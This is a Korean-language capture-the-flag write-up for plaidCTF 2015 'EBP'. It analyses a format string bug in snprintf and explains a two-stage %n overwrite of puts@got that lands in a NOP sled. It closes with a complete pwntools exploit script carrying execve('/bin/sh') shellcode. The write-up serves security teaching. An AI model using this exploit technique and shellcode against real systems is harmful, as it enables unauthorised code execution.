

# plaidCTF_2015_EBP - double FSB

# 문제 분석

파일은 1개가 주어진다 chall 바이너리 파일

- 보호기법



32비트 바이너리에 보호 기법은 아무것도 걸려있지 않다.

- main 함수

```jsx
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax

  while ( 1 )
  {
    result = (int)fgets(buf, 1024, stdin);
    if ( !result )
      break;
    echo();
  }
  return result;
}
```

- 전역 버퍼 `buf`에 `fgets`로 최대 1024바이트를 stdin에서 읽음
- 읽기 성공 시마다 `echo()` 호출

- echo() 함수

```jsx
int echo()
{
  make_response();
  puts(response);
  return fflush(stdout);
}
```

- make_response() 함수

```jsx
int make_response()
{
  return snprintf(response, 0x400u, buf);
}
```

여기서 fsb가 발생한다.

# 익스플로잇 시나리오

익스 시나리오는 다음과 같다. 우선 쉘코드 실행할 수 있는 문제 이므로 쉘코드를 활용하는 문제 같다.

- 우선 snprintf() 함수 실행 전에 esp를 봐보자


snprintf(response, 0x400, buf)

```jsx
buf        ← 3번째 인자
0x400      ← 2번째 인자  
response   ← 1번째 인자
```

위와 같이 세팅이 되어있는 것을 알 수 있다.

0xffffd508 부분은 0xffffd528를 가르키는 포인터인 것을 확인할 수 있다.


우리는 이 점을 이용해서 0xffffd508에 puts@got의 주소를 넣을 것이다 이렇게 되면 puts@got의 주소가 

0xffffd528 부분에 적어질 것 이다.


직접 첫 번째 인자부터 15번째 인자까지 뽑아보니 4번째 인자가 우리가 원하는 0xffffd508안의 값이 출력되는 것을 알 수 있다.

이후 0xffffd528를 이용해서 puts@got를 buf+100정도로 덮을 것이고 그 뒤로 nop로 적당히 덮고 쉘코드를 넣어서 실행을 시킬 것이다.

이렇게 하는 이유는 다음과 같다.

```jsx
payload2 = '%{}c%12$n'.format(buf+100)  ← 이 텍스트가 buf에 저장됨
payload2 += '\x90'*300
payload2 += shellcode

0x804a080: '%134520836c%12$n'  ← payload2 텍스트 (약 17바이트)
0x804a091: \x90\x90\x90...    ← NOP
0x804a191: \x31\xc0...        ← 쉘코드
```

예를 들어 위와 같이 payload를 넣는다고 가정해보자

만약 바로 buf의 주소로 이동한다면 “%134520836c%12$n”는 명령어가 아닌 문자가 포함되어 있으므로 크래시가 날 것 이다.

그렇기 때문에 NOP(아무것도 안하고 다음 코드 실행)을 이용해서 NOP를 중간에 많이 넣어서 put@got를 nop어딘가로 덮어 다음 코드 실행 ~을 반복해서 쉘코드를 만나게하는 것이다.

# 익스플로잇

```jsx
from pwn import *

e = ELF('./chall_fsb')
p = process('./chall_fsb')

buf = 0x0804A080

shellcode = '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80'

payload = "%{}c%4$n".format(e.got['puts'])
p.sendline(payload)

payload2 = '%{}c%12$n'.format(buf+100)
payload2 += '\x90'*300
payload2 += shellcode
p.sendline(payload2)

p.interactive()
```